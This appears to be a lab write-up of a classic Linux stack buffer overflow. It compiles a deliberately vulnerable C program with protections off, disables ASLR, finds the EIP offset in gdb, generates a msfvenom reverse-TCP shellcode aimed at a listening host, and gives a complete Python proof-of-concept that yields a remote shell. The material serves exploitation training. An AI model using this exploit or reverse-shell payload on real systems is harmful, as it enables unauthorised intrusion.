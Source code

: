 # Stack Overflow Foundation
## 1. What is Stack Overflow
In software, a stack overflow occurs if the call stack pointer exceeds the stack bound. The call stack may consist of a limited amount of address space, often determined at the start of the program. The size of the call stack depends on many factors, including the programming language, machine architecture, multi-threading, and amount of available memory. When a program attempts to use more space than is available on the call stack (that is, when it attempts to access memory beyond the call stack's bounds, which is essentially a buffer overflow), the stack is said to overflow, typically resulting in a program crash
![[https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/bo_imagination.png]]
## 2. Overflowing Program on Linux
### 2.1 Setting up environment
First up, we need to turn off Address Space Layout Randomization (ASLR):
```bash
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Program source code:
```c
#include<stdio.h>
#include<unistd.h>

int overflow(){
  char buffer[500];
  int userinput;
  userinput = read(0, buffer, 700);
  printf("\nUser provided %d bytes. Buffer content: %s", userinput, buffer);
  return 0;
}

int main(int argc, char*argv[]){
  overflow();
  return 0;
}
```

In here, we will use complier `gcc` to compile to code
```sh
$ gcc oversize_overflow.c  -fno-stack-protector -z execstack -o oversize_overflow
```


### 2.2 Overriding EIP
First up, we know the buffer size around 500 bytes or more, let's check how long it will crash and override the `EIP`, so let's try to fuzz the program to crash

Let's make 500 bytes of `A` and send to program to see if it crash
```bash
$ python3 -c "print('A'*500)" | ./oversize_overflow
```
![[image1.png]]
As we can see, the program works good, so let's try with bigger size:
```bash
$ python3 -c "print('A'*700)" | ./oversize_overflow
```
![[image2.png]]
At this time, the program crashed with 700 bytes size. Now on, using the gdb debugger to determine and get exact offset and override the `EIP`:
```bash
$ gdb -q oversize_overflow
```
In my gdb debugger, I've already installed [peda](https://github.com/longld/peda) , so there are many tool you might not see or you can use another tool likewise is ok.
- Creating fuzz buffer to get exact stack size:
```sh
gdb-peda$ pattern create 700 1.txt
Writing pattern of 700 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```
![[image3.png]]
Here is the reuslt, and we can see the `EIP` (`0x4e734138`) point to invalid address, so the program crashed. Now, we are going to get exact size:
```sh
gdb-peda$ pattern offset 0x4e734138
1316176184 found at offset: 516
```
Get back to terminal, create the basic exploit to see if it overrided:
```sh
$ python -c "print('A'*516+'B'*4+'C*100')" > input.txt
```
Run the input file in gdb debugger, we can see the `EIP` overrided with 0x42424242 (meant BBBB). We are completely done with overriding the `EIP`.
![[image4.png]]
### 2.3 Execute the Shellcode
#### 2.3.1 Shellcode generation
To generate the shellcode, in this section we will use msfvernom to genterate it
```bash
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.1.9 lport=4444 -b "\x00" -f python -o payload.py --platform linux -a x86
```
- Options description:
```sh
-p: Which mean payload
-b: bad characters caused crash
-f: file type
-o: output
-a: architecture
--platform: platform for the payload
lhost: listening host
lport: listening port
```
![[image5.png]]

#### 2.3.2 Finding the returning address to execute the shellcode
We got the shellcode, now we need to find the address to override the `EIP` and point it to the shellcode to make it execute. To do this, we will make `A` buffer and open the `gdb`.
```bash
$ python -c "print('A'*700)" > input.txt

gdb-peda$ r < input.txt
```
After run, the program will be crashed, use `x/20wx $esp-0x230` to show stack similar with below picture.
![[image6.png]]
In the picture, we can see the buffer start in `0xffffd030 + 0x8`, so `0xffffd038` will be our return address
#### 2.3.3 Proof of Concept (PoC)
We will edit the `payload.py` which we've already created above:
```python
#!/usr/bin/python3
import struct

buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24\xf4\x5d\x29\xc9\xbe\x4d\x2c\x0e"
buf += b"\xe0\xb1\x12\x83\xed\xfc\x31\x75\x13\x03\x38\x3f\xec"
buf += b"\x15\xf3\xe4\x07\x36\xa0\x59\xbb\xd3\x44\xd7\xda\x94"
buf += b"\x2e\x2a\x9c\x46\xf7\x04\xa2\xa5\x87\x2c\xa4\xcc\xef"
buf += b"\x6e\xfe\x2e\xe6\x06\xfd\x30\xe9\x8a\x88\xd0\xb9\x55"
buf += b"\xdb\x43\xea\x2a\xd8\xea\xed\x80\x5f\xbe\x85\x74\x4f"
buf += b"\x4c\x3d\xe1\xa0\x9d\xdf\x98\x37\x02\x4d\x08\xc1\x24"
buf += b"\xc1\xa5\x1c\x26"

with open('input.txt', 'wb') as file:
    offset = 516
    nop = b'\x90'*16
    junk = b'A'
    ret_add = struct.pack('<L', 0xffffd038)
    payload = nop + buf + junk * (offset - 16 -len(buf)) + ret_add
    file.write(payload)
```
After run we have text file `input.txt`![[image7.png]]
Finally, we got the result, shellcode is connected![[image8.png]]
![[image9.png]]

------------------------------------------------------- Done -------------------------------------------------------
